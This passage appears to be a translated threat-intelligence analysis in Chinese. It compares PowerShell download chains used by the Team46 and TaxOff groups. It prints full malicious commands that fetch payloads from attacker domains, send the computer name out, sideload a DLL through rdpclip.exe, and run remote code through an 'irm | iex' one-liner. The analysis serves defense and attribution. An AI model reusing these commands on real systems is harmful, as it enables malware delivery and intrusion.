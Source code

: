 
```
iwr 'https://ms-appdata-fonts.global.ssl.fastly.net/docs/minsk2025v1/[REDACTED]/document.pdf' -OutFile $env:LOCALAPPDATA\Temp\umawbfez-bkw5-f85a-3idl-3z4ql69v8it0.pdf -UserAgent 'Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/128.0.0 Safari/537.36 Edge/125.0.0.0'; & &#34;$env:LOCALAPPDATA\Temp\umawbfez-bkw5-f85a-3idl-3z4ql69v8it0.pdf&#34;; if(!(Test-Path -Path &#34;$env:LOCALAPPDATA\Microsoft\windowsapps\.Appdata\winsta.dll&#34;)){ if(!(Test-Path -Path &#34;$env:LOCALAPPDATA\Microsoft\WindowsApps\7za.exe&#34;)){iwr &#34;https://ms-appdata-fonts.global.ssl.fastly.net/docs/minsk2025v1/[REDACTED]/pkcs7&#34; -OutFile &#34;$env:LOCALAPPDATA\Microsoft\WindowsApps\7za.exe&#34; -UserAgent 'Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/128.0.0 Safari/537.36 Edge/125.0.0.0'};iwr &#34;https://ms-appdata-main.global.ssl.fastly.net/asset.php?query=$env:COMPUTERNAME&#34; -OutFile &#34;$env:LOCALAPPDATA\Microsoft\WindowsApps\\Appdata.zip&#34; -UserAgent 'Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/128.0.0 YaBrowser/28.4.1.2 Safari/537.36';& &#34;$env:LOCALAPPDATA\Microsoft\WindowsApps\7za.exe&#34; x -p'F5gk0a,20g'&#34;$env:LOCALAPPDATA\Microsoft\WindowsApps\\Appdata.zip&#34; -o&#34;$env:LOCALAPPDATA\Microsoft\WindowsApps\&#34;;copy &#34;c:\windows\system32\rdpclip.exe&#34; &#34;$env:LOCALAPPDATA\Microsoft\WindowsApps\.Appdata\rdpclip.exe&#34;; & &#34;$env:LOCALAPPDATA\Microsoft\WindowsApps\.Appdata\rdpclip.exe&#34;;del &#34;$env:LOCALAPPDATA\Microsoft\WindowsApps\\Appdata.zip&#34;;}else{copy &#34;c:\windows\system32\rdpclip.exe&#34; &#34;$env:LOCALAPPDATA\Microsoft\WindowsApps\.Appdata\rdpclip.exe&#34;;& &#34;$env:LOCALAPPDATA\Microsoft\WindowsApps\.Appdata\rdpclip.exe&#34;}
```

  
  
为了进行比较，以下是在 Team46 攻击中发现的类似脚本：  
  

```
C:\Windows\SysWOW64\WindowsPowerShell\v1.0\powershell.exe -w Minimized -ep Bypass -nop -c &#34;iwr 'https://srv480138.hstgr.cloud/uploads/scan_3824.pdf' -OutFile $env:LOCALAPPDATA\Temp\399ha122-tt9d-6f14-s9li-lqw7di42c792.pdf -UserAgent 'Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/120.0.0.0 Safari/537.36 Edg/120.0.0.';$env:LOCALAPPDATA\Temp\399ha122-tt9d-6f14-s9li-lqw7di42c792.pdf;iwr 'https://srv480138.hstgr.cloud/report.php?query=$env:COMPUTERNAME' -OutFile $env:LOCALAPPDATA\Temp\AdobeUpdater.exe -UserAgent 'Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/118.0.0.1 YaBrowser/23.11.0.0 Safari/537.36';$env:LOCALAPPDATA\Temp\AdobeUpdater.exe;&#34;
```

  
  
如您所见，受害者计算机上的诱饵文档使用了相同的命名模式（umawbfez-bkw5-f85a-3idl-3z4ql69v8it0.pdf 和 399ha122-tt9d-6f14-s9li-lqw7di42c792.pdf）。在这两种情况下，下载诱饵文档时都使用 Edge 用户代理，下载有效载荷时则使用 Yandex 浏览器用户代理。此外，在这两种情况下，计算机名称都通过 查询参数传递。  
  
这两起案件之间唯一真正的区别在于有效载荷。Dr.Web描述的早期攻击利用了Yandex 浏览器中的 DLL 劫持漏洞 ( CVE-2024-6473 )，攻击者替换了合法的Wldp.dll库来启动恶意载荷。在 2024 年 10 月的攻击中，攻击者利用了 同样易受 DLL 劫持攻击的 rdpclip.exe系统组件，并替换了winsta.dll系统库。  
  
有趣的是，winsta.dll是 TaxOff 组织使用的 Trinper 后门的加载器，我们 之前曾描述过该后门。该后门使用了 common-rdp-front.global.ssl.fastly.net C2 服务器。  
  
如果不是 2024 年 9 月记录了一次类似的攻击，这或许会被视为巧合。攻击者发送的网络钓鱼电子邮件包含一个名为Корпоративного Центра ПАО «Ростелеком».zip 的存档，其中包含一个名为Ростелеком.pdf.lnk的快捷方式，该快捷方式使用 Team46 的典型命令启动powershell.exe ：  
  

```
-whid -ep Bypass -nop -c&#34;irm https://srv510786.hstgr.cloud/ordinary.php?id=9826fbb409f65dc6b068b085551bf4f3 | iex&#34;
```
